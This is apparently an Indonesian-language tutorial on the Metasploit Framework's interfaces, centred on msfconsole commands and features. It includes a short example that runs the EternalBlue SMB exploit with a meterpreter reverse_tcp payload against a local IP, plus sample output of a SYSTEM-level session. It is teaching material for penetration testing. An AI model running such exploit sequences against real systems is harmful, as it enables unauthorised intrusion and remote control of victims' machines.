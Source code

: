 # Antarmuka Metasploit Framework

## A. Pengantar

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

## B. Jenis Antarmuka Metasploit

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| Armitage (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| Metasploit Pro (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## C. `msfconsole` – Antarmuka Utama

### 1. Menjalankan msfconsole

```
msfconsole
```

Saat dijalankan, akan muncul banner:

```
       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

### 2. Struktur Dasar Perintah di msfconsole

| Perintah | Fungsi |
|:--:|:--:|
| `search <nama>` | Mencari `exploit`, `payload`, `dll` |
| `use <modul>` | Memilih modul yang akan digunakan |
| `info` | Menampilkan detail tentang modul yang sedang digunakan |
| `show options` | Melihat konfigurasi parameter modul |
| `set <parameter> <nilai>` | Mengatur nilai parameter modul |
| `exploit` atau `run` | Menjalankan exploit atau modul |

### 3. Contoh Penggunaan msfconsole

```
search windows/smb
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## D. Fitur Tambahan di msfconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background |
| Session Interaction | Gunakan `sessions -i <id>` untuk membuka kembali sesi eksploitasi |

## E. Contoh Output dari msfconsole

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## F. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
